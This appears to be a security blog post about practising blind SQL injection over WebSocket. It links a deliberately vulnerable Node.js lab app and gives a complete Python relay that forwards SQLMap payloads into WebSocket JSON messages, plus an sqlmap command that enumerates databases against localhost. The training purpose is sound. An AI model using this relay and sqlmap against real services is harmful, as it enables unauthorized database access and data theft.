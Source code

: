 Automating Blind SQL injection over WebSocket

Recently I have come across several CTF challenges on SQL injection over WebSocket. So I decided to build a vulnerable WebSocket web app for others to practice blind SQL injection over WebSocket. I spent a day building this on NodeJS from scratch which helped me better understand WebSocket implementations. I’ll also share a nifty trick to perform SQL injection over WebSocket with SQLMap using an approach similar to tamper scripts.

I have pushed the vulnerable app on GitHub and added few exercises, feel free to complete those to bump your skills on blind SQLi and automation! It’s built on docker so you can just clone the repository and spin it up right away, find it here:

https://github.com/rayhan0x01/nodejs-websocket-sqli

Now coming to the second part of the post, I highly recommend one to practice and automate the blind SQL injection using Python/Ruby/PHP first for practice and better understanding but I also wanted to use SQLMap and thought of a tamper script approach. If you didn’t know, the main difference between HTTP and WebSocket is that HTTP is built on a request-response model whereas WebSocket is like a Socket connection where both client and server can send data anytime asynchronously. So you can’t repeat the requests made in WebSocket as you would normally do for HTTP Requests in BurpSuite.

I found that SQLMap supports the  ws://  protocol but there was very little to no documentation about it and if there is some sort of dynamic authentication token that needs to be received and sent on each request, it won’t be possible to perform SQLi directly via SQLMap like   sqlmap -u "ws://link/" ... .

So the basic idea to solve this is:

    have an HTTP Server script that will receive the SQLMap payload via GET parameter.
    format the payload if needed (for example wrap it in a JSON format)
    create a WebSocket connection to actual target, receive response and extract any token if needed.
    Send SQLi payload and receive Output from WebSocket.
    Display the output as response

It is similar to SQLMap tamper scripts but in this case the script will act as a standalone server vulnerable to SQLi on GET parameter. Here is the full Python3 script created for the vulnerable web app I shared previously:

```python
from http.server import SimpleHTTPRequestHandler
from socketserver import TCPServer
from urllib.parse import unquote, urlparse
from websocket import create_connection

ws_server = "ws://localhost:8156/ws"

def send_ws(payload):
	ws = create_connection(ws_server)
	# If the server returns a response on connect, use below line	
	#resp = ws.recv() # If server returns something like a token on connect you can find and extract from here
	
	# For our case, format the payload in JSON
	message = unquote(payload).replace('"','\'') # replacing " with ' to avoid breaking JSON structure
	data = '{"employeeID":"%s"}' % message

	ws.send(data)
	resp = ws.recv()
	ws.close()

	if resp:
		return resp
	else:
		return ''

def middleware_server(host_port,content_type="text/plain"):

	class CustomHandler(SimpleHTTPRequestHandler):
		def do_GET(self) -> None:
			self.send_response(200)
			try:
				payload = urlparse(self.path).query.split('=',1)[1]
			except IndexError:
				payload = False
				
			if payload:
				content = send_ws(payload)
			else:
				content = 'No parameters specified!'

			self.send_header("Content-type", content_type)
			self.end_headers()
			self.wfile.write(content.encode())
			return

	class _TCPServer(TCPServer):
		allow_reuse_address = True

	httpd = _TCPServer(host_port, CustomHandler)
	httpd.serve_forever()


print("[+] Starting MiddleWare Server")
print("[+] Send payloads in http://localhost:8081/?id=*")

try:
	middleware_server(('0.0.0.0',8081))
except KeyboardInterrupt:
	pass

```


You will need to install the websocket-client package via pip/pip3 for Python3.

The script will create an HTTP Server on port 8081 and extract first GET parameter value, send the value to  send_ws  function where it will be formated as a JSON message as required by the vulnerable web app. It will then establish a WebSocket connection to the server endpoint mentioned in  ws_server  variable and send the payload.

Notice WebSocket is asynchronous and we are handling it here synchronously by opening a new connection every time for a payload.

If you try custom automating the SQLi via script, you can use message fingerprinting and taking different actions based on the message received on on_* event functions, use global variables, dictionaries to sync data between functions to perform full SQLi over single WebSocket connection. Or do it synchronously by opening new connection each time, but surely the first approach is more challenging and fun.

Now to test out our middle-ware server in action, I’ll first host the vulnerable web app and launch the above script in a terminal. Then execute SQLMap against the middle-ware server hosted on port 8081:
```bash
sqlmap -u "http://localhost:8081/?id=1" --batch --dbs
```
